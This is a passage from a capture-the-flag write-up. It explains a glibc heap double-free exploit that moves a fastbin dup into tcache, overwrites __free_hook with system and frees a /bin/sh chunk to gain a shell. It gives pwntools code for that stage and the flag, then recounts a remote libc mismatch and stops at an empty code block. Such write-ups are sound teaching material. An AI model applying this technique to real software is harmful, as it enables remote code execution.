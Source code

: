 I put /bin/sh inside of book 13 because we will be using that chunk later.

Now that we have a double free in fastbins, we need to allocate back the tcache bins, so we can use it inside of tcache instead.

Why? Fastbins have a check for whether or not it's allocated correctly inside a valid chunk, however tcache bins have no such check and will just create the chunk metadata where it's allocated.

This means that a double free in tcache bins is way more powerful than a double free in fast bins, as double free in tcache bins is just arbitrary write.

Creating 7 books, will cause the fastbin dup to be moved to the tcache.

We can then put ptrs of where we want to alloc next inside of any chunk allocated, so at some point when we allocate, we will allocate to the address we control.

I just personally decided to put it inside of all of them to be sure.

I decided to write to __free_hook as in free hook we can control RDI as well as RIP

```python
for i in range(0,10):
    create_book(i,b'abcd',20,p64(free_hook)*13,0x68)
```

Once that is done we allocate system and free a book with /bin/sh in it, to call system:


```python
create_book(12,b'abcd',20,p64(system)*13,0x68)

io.recvuntil(b'>')
io.sendline(b'2')
io.recvuntil(b'idx book:')
io.sendline(f"13".encode())
io.recvuntil(b'title:')
io.send(b'abcd')
io.recvuntil(b'num page:')
io.sendline(f"20".encode())
io.recvuntil(b'desc len:')
io.sendline(b'5')


io.interactive()
```

Which gives us the flag:

```n00bz{miss_error_handling_turns_into_RCE?}```

## The libc debacle
Libc on the remote instance was wrong. I noticed this pretty quickly after being able to pop a shell locally, but when run on remote it would just keep executing the program normally.

This caused me to write to the admins, who weren't able to provide me with a sha256sum of the libc on remote, but they were able to provide me with which docker image was used to spawn the challenge.

I duplicated this docker image locally, and grabbed the libc, but alas. The exploit still did not work on remote, even after fixing offsets with this libc.

So what can we do?

Well inside of every libc is a string, which signifies what full release version it is. Using this we can leak this string inside of libc and then download the correct one and modify our exploit.

The original libc used was actually `GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.9) stable release version 2.31`

I used the following code to leak that string on the remote:

```python
```